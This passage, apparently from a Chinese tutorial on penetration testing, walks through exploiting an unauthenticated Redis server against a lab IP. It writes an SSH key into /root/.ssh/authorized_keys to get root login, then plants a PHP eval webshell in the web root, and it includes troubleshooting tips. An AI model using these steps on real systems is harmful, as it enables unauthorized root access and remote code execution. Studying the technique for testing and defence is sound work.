 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637571146976-249054a6-2b1a-42f4-8732-ed1b2bb195f9.png#clientId=u9e20ed45-5375-4&from=paste&height=125&id=u485e9bbd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=167&originWidth=419&originalType=binary&ratio=1&size=35224&status=done&style=none&taskId=u48d2d774-f8f2-43d8-9855-ed7e5c288c1&width=314)

```bash
# 连接redis，设置路径和保存的文件名，将内存变量导入磁盘文件
redis-cli -h 192.168.210.177
config set dir /root/.ssh/
config get dir
config set dbfilename authorized_keys
save
```
**踩坑：**

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637571260191-07c47d16-07d9-4f9b-99b4-f8893b7e12e0.png#clientId=u9e20ed45-5375-4&from=paste&id=u94e7e5c7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=63&originWidth=468&originalType=binary&ratio=1&size=19169&status=done&style=none&taskId=ua92ec418-ee0d-44d9-9bbd-e922ff37d14)  

这里报错的意思是靶机没有这个文件目录， 原因是.ssh 是记录密码信息的文件夹，如果没有用root用户登录过的话，就没有 .ssh 文件夹，所以我们在靶机上执行下面这条命令即可（也可以手动创建.ssh目录）：
```bash
ssh localhost
```

此时，可成功导入：

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637571417359-754f4557-6886-4fe9-8c15-276a9d4dcc07.png#clientId=u9e20ed45-5375-4&from=paste&id=u387911ca&margin=%5Bobject%20Object%5D&name=image.png&originHeight=116&originWidth=486&originalType=binary&ratio=1&size=29778&status=done&style=none&taskId=u25af95b9-7e1b-4f72-b56a-f911a829b33)

（3）利用私钥成功登录redis服务器
```bash
ssh -i id_rsa root@192.168.210.177
或者
ssh 192.168.210.177
```

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637571815241-172a3a28-ee7c-4b84-a8eb-4e1661a781ca.png#clientId=u9e20ed45-5375-4&from=paste&height=472&id=ue407ae1b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=629&originWidth=733&originalType=binary&ratio=1&size=236912&status=done&style=none&taskId=ue140237f-f655-4649-b958-39b8b66148c&width=550)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637571872442-c6214cb9-cc95-4c80-9ff7-58f4c9ebb7bd.png#clientId=u9e20ed45-5375-4&from=paste&height=415&id=uf5488e43&margin=%5Bobject%20Object%5D&name=image.png&originHeight=554&originWidth=663&originalType=binary&ratio=1&size=197877&status=done&style=none&taskId=u0cc9ed9d-7edb-480c-b875-c47c26b7f6a&width=497)

**坑点：**
目标主机必须开启了密钥登录才能利用。
ssh第一次连接时要加上 -o StrictHostKeyChecking=no，不然可能一直连不上。
`ssh  -o StrictHostKeyChecking=no x.x.x.x`

### 4.2.3 网站绝对路径写 Webshell
条件：需要找到网站根目录的路径。

参考链接：

- [https://www.hackersb.cn/Linux/153.html](https://www.hackersb.cn/Linux/153.html)

```bash
config set dir /var/www/html/
//切换目录到网站的根目录

set x "\n\n\n<?php phpinfo();?>\n\n\n"
//写入恶意代码到内存中(1)

set xx "\n\n\n<?php @eval($_POST['cmd']);?>\n\n\n"
//写入恶意代码到内存中(2)

config set dbfilename shell.php
//在磁盘中生成木马文件

save
//将内存之中的数据导出到磁盘文件
```
